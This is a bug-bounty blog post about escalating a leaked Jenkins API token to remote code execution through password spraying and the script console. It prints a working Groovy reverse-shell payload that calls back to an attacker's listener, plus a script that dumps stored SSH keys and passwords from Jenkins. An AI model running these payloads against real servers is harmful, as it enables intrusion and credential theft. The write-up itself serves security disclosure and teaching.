 ```yaml
---
layout: post
title: "Exploiting Jenkins"
author: "joelczk"
tags: Vulns
excerpt_separator: <!--more-->
---
```

A story of how a wild Jenkins API token led to so much more ....
<!--more-->

## Background
This story starts when I found a wild Jenkins API token, together with the Jenkins user from a publicly-accessible main.js endpoint during my bug bounty journey. 
Before I dwelve into the specifics, let me do a quick introduction on Jenkins.

Jenkins is an open-sourced tool used to build, test and deploy software and is primarily written in Java. Currently, Jenkins has been integrated into the devops workflow 
of many large enterprises and is commonly used by many.

## Exploiting Jenkins API token
So back to the story, now that we have the Jenkins API token and the Jenkins, what can we do with it? For those who are unaware, the base64-encoded value of <username>:<Jenkins API token> 
could actually be used as the Authorization header to gain authentication to the targeted Jenkins site. All we have to do is to replace the
Authorization headers as demonstrated below:
```
Authorization: <base64 encoded value>
```

However, this would be too much of a hassle to find out the privileges of the current user. Fortunately, we have the [jenkins-attack-framework](https://github.com/Accenture/jenkins-attack-framework)
tool to help automate the entire process.
```
┌──(kali㉿kali)-[~]
└─$ python3 jaf.py AccessCheck -s <Jenkins url> -a <username>:<Jenkins API token>
<username> can View Jenkins: True
<username> can Create Job: True
<username> has some Administrative Access: False
<username> can access Script Console: False
```
Unfortunately, this seems like a dead-end for now as the current user can only view the Jenkins using the API token and does not have administrative access or 
access to the script console.

## Exploiting Weak passwords
Fortunately, we are able to obtain the list of users on the Jenkins sites using the API token. From the list of users, we are able to do a password spraying attack on
the Jenkins site and find a pair of weak credentials. 

Afterwards, we will proceed to login to the Jenkins site using the set of weak credentials. Fortunately, this time round this user has access to the script console.
With the script console, we are able to execute arbitrary code and from there, we are able to spawn a reverse shell connection to our local listener achieving the final
impact of RCE!
```
String host="<IP Address of listener>";
int port=<Port of listener>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Conclusion
As it turns out, a single Jenkins API token could potentially lead to a RCE no matter how low-privileged the API token might be. The exposure of a single Jenkins
token alone could expose essential information such as the deployment of the source code and/or sensitive keys/users.

Furthurmore, we could dump secrets that are stored in Jenkins via the script console using the code demonstrated below. This could potentially lead to lateral movement
to other assets, but that's a story for another day!

```
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
    com.cloudbees.plugins.credentials.common.StandardUsernameCredentials.class,
    Jenkins.instance,
    null,
    null
)

for(c in creds) {
  if(c instanceof com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey){
    println(String.format("id=%s desc=%s key=%s\n", c.id, c.description, c.privateKeySource.getPrivateKeys()))
  }
  if (c instanceof com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl){
    println(String.format("id=%s desc=%s user=%s pass=%s\n", c.id, c.description, c.username, c.password))
  }
}
```
